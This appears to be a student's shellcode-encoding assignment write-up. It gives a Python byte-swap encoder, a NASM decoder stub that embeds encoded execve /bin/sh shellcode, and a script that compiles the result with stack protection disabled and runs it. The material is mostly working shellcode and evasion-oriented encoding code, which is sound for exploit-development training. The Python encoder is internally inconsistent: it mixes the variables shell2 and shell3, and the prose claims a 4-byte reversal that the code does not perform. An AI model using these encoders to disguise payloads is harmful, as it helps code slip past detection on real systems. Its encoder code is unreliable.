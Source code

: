 # Assignment 4

## What to do:

-Create a custom encoding scheme like the “Insertion Encoder” we showed you. 

-PoC with using execve-stack as the shellcode to encode with your schema and execute.

## Solution: 
  1) Create the encoder.
  
  The encoder created (Mirror_encoder.py) takes the every 4 bytes of the shellcode and reverse its order, meaning, if the string taken is 0x45a3, the resultant will be 0xa345 (this is done until the end of the shellcode is reached). In case the shellcode has not even length, 0xf0 is added to the end of the shellcode to allow the "mirror" modification. 0xf0f0 is appended to the final shellcode as the marker which will be used to stop the nasm decoder.
  
    for x in bytearray(shellcode):  #Add to shell the shellcode as hexadecimal format
      shell += '\\x' + '%02x' % x

    shell2 = ""
    for i in range(0,4*len(bytearray(shellcode)),8): #Loop which takes 2 bytes and swap its order
      if (len(shell[i+1:i+4]) + len(shell[i+5:i+8]))==6:
        shell3 += "0"+ shell[i+5:i+8] + "," + "0"+shell[i+1:i+4] + ","
      elif (len(shell[i+1:i+4]) + len(shell[i+5:i+8]))==3: #If the length of the shellcode is not even, it is added 0xf0 to make it even. 
        shell3 += "0xf0" + "," + "0"+shell[i+1:i+4] + ","


    print shell2 + "0xf0,0xf0" #Marker to finish the decoder
    
  2) PoC with using execve-stack as the shellcode to encode.
  
   * The shellcode to be used is the one obtained from the execve-stack binary.
    
    nasm -f elf32 -o execve.o execve.nasm
    ld -o execve execve.o
    objdump -d ./execve|grep '[0-9a-f]:'|grep -v 'file'|cut -f2 -d:|cut -f1-6 -d' '|tr -s ' '|tr '\t' ' '|sed 's/ $//g'|sed 's/ /\\x/g'|paste -d '' -s |sed 's/^/"/'|sed 's/$/"/g'
   
   3) Create the nasm decoder.
   
   * The shellcode obtained in the earlier step, must be passed to Mirror_Encoder.py where is "mirrored".
   
   * Now, we have the shellcode to inject into the Mirror_decoder.nasm
   
    global _start			

    section .text
    _start:

      jmp short call_shellcode  ;jump-call-pop technique

    decoder:

      pop esi			; pop shellcode into esi
      lea edi, [esi]		; Copy the position in memory of the shellcode to edi, where we will save the decoded one
      xor eax, eax		; Clearing out eax and ecx
      xor ecx, ecx

    decode:
      mov ax, [esi]                ; Moves the first to bytes of esi to ax
      mov cx, ax		     ;Moves ax to cx to check if it is the end of the shellcode
      xor cx, 0xf0f0               ; Compare cx with 0xf0f0 marker
      jz short EncodedShellcode    ; if xor os 0, jump to shellcode
      mov byte [edi], ah           ;Move the second byte to the first byte of edi
      mov byte [edi + 1], al;      ; Move the first byte to the second byte of edi --> 0x31c0 moves to 0xc031 in edi 	
      inc edi			     ; move to next byte in edi
      inc edi			     ; move to next byte in edi	
      inc esi			     ; move to next byte in esi
      inc esi                      ; move to next byte in esi 
      jmp short decode	     ; jump back to start of decode

    ;Modifications can be vieweb by using x/20xc *call during execution (gdb)	

    call_shellcode:

    call decoder
    EncodedShellcode: db 0xc0,0x31,0x68,0x50,0x2f,0x2f,0x68,0x73,0x2f,0x68,0x69,0x62,0x89,0x6e,0x50,0xe3,0xe2,0x89,0x89,0x53,0xb0,0xe1,0xcd,0x0b,0xf0,0x80,0xf0,0xf0,0xee,0xee

4) Compiling the final shellcode
    
   * Once the nasm code is finished, we can use mirror-decoder-compile.sh to assembly and link it, copy the shellcode to the skeleton_shellcode.c, compile the final shellcode and execute it.
   
          echo '[+] Assembling with Nasm ... '
          nasm -f elf32 -o mirror-decode.o mirror-decode.nasm

          echo '[+] Linking ...'
          ld -o mirror-decode mirror-decode.o

          echo '[+] Done!'

          sleep 2

          echo "[+] Dumping disassembling code.."

          objdump=$(objdump -d ./mirror-decode|grep '[0-9a-f]:'|grep -v 'file'|cut -f2 -d:|cut -f1-6 -d' '|tr -s ' '|tr '\t' ' '|sed 's/ $//g'|sed 's/ /\\x/g'|paste -d '' -s |sed 's/^/"/'|sed 's/$/"/g')

          echo $objdump 
          sleep 3

          echo "[+] Compiling shellcode.c and executing it.."

          cp skeleton_shellcode.c shellcode.c  #Copy the skeleton of the shellcode (it contais a string named shellcode which it will be replaced with objdump)

          replace "shellcode" "$objdump" -- shellcode.c &>/dev/null #Replace shellcode dump

          sleep 2

          gcc -fno-stack-protector -z execstack shellcode.c -o shellcode &>/dev/null #Compile and execute the shellcode


          ./shellcode


      
